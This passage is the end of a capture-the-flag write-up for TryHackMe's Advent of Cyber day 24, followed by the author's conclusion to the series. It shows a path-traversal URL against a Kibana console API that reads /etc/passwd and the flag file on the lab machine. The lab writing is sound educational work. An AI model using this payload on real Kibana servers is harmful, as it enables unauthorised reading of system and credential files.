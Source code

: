 ![passwd](/assets/images/THM/2020-08-15-advent-of-cyber/day24/5.png)

We just read the content from /etc/passwd. This vulnerable is valid. As for the flag, it is located at the root file system (Not in the /root directory).

```
http://<machine IP>:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../../../../../../../root.txt
```

![flag 24](/assets/images/THM/2020-08-15-advent-of-cyber/day24/6.png)

It is hard to locate the flag as it only contains a few letters. Well, actually there are other ways by using the console.

## Conclusion

This is it, congratulation on completing all 24 tasks. What a challenge! A big thanks to the THM and the task creators who create those challenges we didn't deserve for. Good job and keep on keeping on, I look forward to the next cyber advent challenge. Until next time ^^ and happy new year
